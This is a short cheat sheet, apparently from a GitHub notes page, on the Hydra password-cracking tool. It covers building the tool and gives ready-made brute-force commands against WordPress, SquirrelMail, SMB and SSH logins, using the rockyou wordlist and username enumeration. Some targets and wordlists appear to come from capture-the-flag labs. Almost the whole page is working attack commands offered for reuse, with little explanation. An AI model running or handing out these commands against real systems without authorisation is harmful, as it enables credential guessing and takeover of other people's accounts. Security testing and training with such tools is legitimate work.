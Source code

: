 # Clone
```bash
git clone https://github.com/vanhauser-thc/thc-hydra
```

# Compile
```bash
./configure
make
make install
```

<https://github.com/cytopia/pwncat>

# WordPress (HTTP Form Post)
```bash
hydra -f -l <username> -P /usr/share/wordlists/rockyou.txt <IP> -V http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# check for usernames.
hydra -vV -L fsocity.dic.uniq -p wedontcare 172.16.0.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -o wpusers.txt
# check for passwords.
hydra -vV -L wpusers-clean.txt -P fsocity.dic.uniq 172.16.0.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -o wppasswords.txt
```
<https://linuxconfig.org/test-wordpress-logins-with-hydra-on-kali-linux/>

# SquirrelMail (HTTP Form Post)
```bash
hydra -l <username> -P log1.txt 10.10.34.188 http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

# SMB
```bash
hydra -L users.txt -P <Password List> <Target Host> smb
```

# SSH
```bash
# Bruteforce SSH with a known username and a password list, specifying 4 threads (16 by default).
# -f quits on success.
hydra -f -l <username> -P /usr/share/wordlists/rockyou.txt <IP> -t 4 ssh
```

# References
[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)